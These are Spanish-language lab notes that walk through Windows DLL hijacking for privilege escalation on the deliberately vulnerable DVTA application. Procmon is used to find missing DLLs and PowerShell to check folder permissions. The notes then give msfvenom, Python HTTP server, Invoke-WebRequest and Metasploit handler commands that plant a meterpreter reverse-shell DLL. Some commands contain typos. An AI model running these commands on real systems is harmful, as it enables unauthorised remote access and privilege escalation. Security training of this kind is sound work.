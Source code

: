 
Ataque de escala de privs en el que se manipula la forma en la que windows ejecuta una DLL añadiendo código malicioso.

Pasos a realizar:

1. Identificar aplicaciones vulnerables
	1. Determinar aplicaciones con privilegios
	2. Analizar sus dependencias con DLL
2. Examinar el orden de DLL
	1. Entender el orden por defecto. Windows tiene un orden predefinido para buscar DLLs que generalmente empieza con el directorio de aplicaciones.
	2. Identificar puntos potenciales de inserción.
3. Injectar una DLL maliciosa
	1. Crear una maliciosa DLL
	2. Poner la DLL en una localización estratégica.

Vamos a utilizar la herramienta Procmon64 para analizar las dependencias de DLL.

Hay que desactivar las opciones de:
- Actividad de registro
- Actividad de red

![[Pasted image 20250221091248.png]]

Nos interesan las que tienen en Operation -> Create File.

Vamos a analizar el programa o aplicación dvta (hay que iniciarlo) y para ello desde el botón de filtro especificamos el nombre de proceso (DVTA.exe).

![[Pasted image 20250221091445.png]]

El siguiente paso sería filtrar la columna Result para que nos muestre las DLL que no han sido encontradas.

![[Pasted image 20250221091522.png]]

Una vez encontremos alguna DLL nos tenemos que asegurar que nuestro usuario pueda acceder y modificar archivos en esa ubicación.

```powershell
Get_ACL 'C:\Users\Administrator\Desktop\dvta\bin\Release' | Format-list'
```

![[Pasted image 20250221091754.png]]

El usuario actual 'Student' tiene acceso al directorio, con lo que podemos poner una DLL maliciosa.

```bash
#Generar la dll maliciosa.
msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP PORT=4444 -f dll > DWrite.dll

#generar servidor de conexión
python -m SimpleHTTPServer 80

#Activer el listener desde metasploit
msfconsole -q
use multi/handler
set pauload windows/meterpreter/reverse_tcp
show options
exploit
```

```powershell
iwr -UseBasicParsing -Uri http://ip/DWrite-dll -OutFile DWrite.dll
```

Y con iniciar la aplicación de nuevo meterpreter detectará una nueva sesión con los permisos de quien ejecute la aplicación.